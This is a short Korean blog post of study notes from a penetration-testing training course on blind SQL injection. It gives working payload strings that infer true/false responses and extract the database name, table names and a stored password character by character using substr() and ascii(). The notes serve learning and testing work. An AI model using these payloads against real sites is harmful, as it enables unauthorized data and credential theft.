 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[] Blind SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


3. Blind SQL Injection
    1. 참과 거짓의 응답 차이로 알아낸다.

---

Blind SQL Injection
1. normaltic' and ('1' = '1') and '1' = '1
2. normaltic' and (select pass from member where id = 'normaltic') and '1' = '1

1. sql injection의 포인트를 찾는 것
normaltic' and '1' = '1
normaltic' and '1' = '2
-> 참과 거짓 찾기
-> 조건 ㅈㄴ 후하네 ㅋㅋ
2. select문구 사용가능한지 확인하기
normaltic' and ('1' = '1') and '1' = '1
normaltic' and ('1' = '2') and '1' = '1
normaltic' and ((select 'test') = 'test') and '1' = '1
3. 공격 format
normaltic' and (조건) and '1' = '1

substr('test',1,1) -> t # substr(string, idx, range)
substr((select 'test'), 1, 1) = 't'
normaltic' and (substr((select 'test'), 1, 1) = 't') and '1' = '1

ascii()
ascii(substr((select 'test'), 1, 1)) > 0 # 데이터가 존재하는 지 확인
normaltic' and (ascii(substr((select 'test'), 1, 1)) > 0) and '1' = '1
4. DB
select database()
normaltic' and (ascii(substr((select database()), 1, 1)) > 0) and '1' = '1
normaltic' and (ascii(substr((select database()), 2, 1)) > 0) and '1' = '1
5. Table
select table_name from information_schema.tables where table_schema = '' limit 0, 1

* 글자 개수가 몇 개인지 세는 함수